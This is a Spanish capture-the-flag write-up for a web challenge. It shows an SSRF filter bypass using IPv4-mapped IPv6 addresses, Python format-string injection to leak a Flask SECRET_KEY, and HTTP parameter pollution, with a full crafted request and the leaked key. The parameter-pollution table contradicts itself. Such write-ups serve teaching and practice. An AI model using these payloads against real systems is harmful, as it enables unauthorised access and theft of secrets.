

# Offlinea

El hecho de que bandera se almacene en la tabla secreta de la base de datos, es que la tabla secreta se pueda consultar accediendo al endpoint /bartender.php en el puerto 5000.

El puerto 5000 no esté expuesto externamente y que la función de esta aplicación tome una captura de pantalla después de acceder a la URL dada y la proporcione como PDF. 

Se debe baypassear el filtrado de la URL del host local y explotar SSRF para que la aplicación acceda a [http://localhost:5000/bartender](http://localhost:5000/bartender), tome una captura de pantalla y verifique el valor de la bandera almacenado en la tabla de secretos.

## Evitando el filtrado de localhost

La lógica para verificar si el host del parámetro GET de la URL es localhost es:

La funcion no_way_trick() es la encargada de esto, y hace lo siguiente:

```python
function no_way_trick_me($url) {
    $private_ranges = [
        '127.0.0.0/8',
        '10.0.0.0/8',
        '172.17.0.0/12',
        '192.168.0.0/16',
        '0.0.0.0/8',
        '169.254.0.0/16',
        '::1/128',
        'fe80::/10'
    ];
    $info = parse_url($url);
    $host = strtolower($info['host']);
    $ip = gethostbyname($host);
    if($host === ''){
        return false;
    }
    if (url_check($url) === false){
        return false;
    }
    if (false !== filter_var($host, FILTER_VALIDATE_IP)) {
        if (false === filter_var($host, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
            return false;
        }
    }
    if (!in_array($info['scheme'], ['https', 'http'])) {
        return false;
    }
    if (preg_match('/[{}]/', $url)) {
        return false;
    }
    foreach ($private_ranges as $range) {
        if (ip_in_range($ip, $range)) {
            return false;
        }
    }
    return true;
}
```

La idea es evitar estar dentro de la lista `private_ranges`

A primera vista, el segundo filtrado parece abarcar todas las representaciones posibles de localhost, incluyendo IPv6, pero no filtra las direcciones IPv6 mapeadas a IPv4. Las direcciones IPv6 mapeadas a IPv4 son una notación IP que se utiliza para representar IPv4 como IPv6

Además, la función `filter_var($host, FILTER_VALIDATE_IP)`, que se utiliza para comprobar el formato de una dirección IP válida en el primer paso del filtrado, devuelve `false` para las direcciones IPv6 entre corchetes. En consecuencia, la lógica que verifica si la IP es realmente una IP no se ejecuta, lo que permite omitir el primer paso del filtrado.

Las pruebas realizadas con

```python
http://[::ffff:7f00:1:5000]/logs
o
http://[::ffff:127.0.0.1]:5000/logs
```

muestran que el filtrado de localhost se omitió correctamente. Esto porque en `::ffff:7f00:1` la parte `7f00:0001` corresponde a `127.0.0.1` porque:

```python
7f = 127
00 = 0
00 = 0
01 = 1
```

[http://172.17.225.11:8000/bartender.php?url=http://[::ffff:7f00:1]:5000/logs&secret=123&name=123](http://172.17.225.11:8000/bartender.php?url=http://%5B::ffff:7f00:1%5D:5000/logs&secret=123&name=123)



## Obtención de SECRET_KEY mediante PFSI y HPP

Para acceder al endpoint `/bartender` como administrador, se necesita un JWT válido que contenga:

```json
{
  "is_admin": true,
  "username": "admin"
}
```

El JWT debe estar firmado con la **SECRET_KEY** del servidor Flask, generada aleatoriamente al iniciar la aplicación.

#### Vulnerabilidad: PFSI (Python Format String Injection)

---

En el endpoint `/logs`, la función `logify()` procesa el historial:

```python
def logify(rec):
    row_separator = '\n'
    history = [f"ID:{row[0]} | URL:{row[1]} | Timestamp:{row[2]}" for row in rec]
    history_1 = row_separator.join(history)
    log = history_1.format(logify=logify)  # Vulnerable
    return log
```

El método `.format()` permite acceder a atributos de objetos Python mediante **llaves `{}`**:

```python
{logify.__globals__[app].config['SECRET_KEY']}
```

- `logify.__globals__` → Accede a las variables globales de la función
- `[app]` → Obtiene el objeto de la aplicación Flask
- `.config['SECRET_KEY']` → Extrae la clave secreta del servidor

Sin embargo, La URL maliciosa contiene llaves `{}` (necesarias para PFSI) y apunta a `127.0.0.1` (localhost), lo que sería bloqueado por `no_way_trick_me()` en PHP.

Para baypassear esto, se explota **HTTP Parameter Pollution.** La diferencia de comportamiento entre php y flask:

| **URL** | **`http://host?url=first&url=second`** |
| --- | --- |
| **PHP** (`$_GET['url']`) | `"first"` (toma la **última**) |
| **Flask** (`request.args.get('url')`) | `"second"` (toma la **primera**) |

Dicho esto, se arma la siguiente request:

```python
GET /bartender.php?url=http://[::ffff:7f00:1]:5000/logs&secret={logify.__globals__[app].config['SECRET_KEY']}&name=123 HTTP/1.1
Host: 172.17.225.11:8000
Accept-Language: es-ES,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

Obteniendo:


d5673fef3724b17630af3077b3e193a449816c49065de9e1cc3ea8e2bdf75dc4 es el secret key del servidor de flask
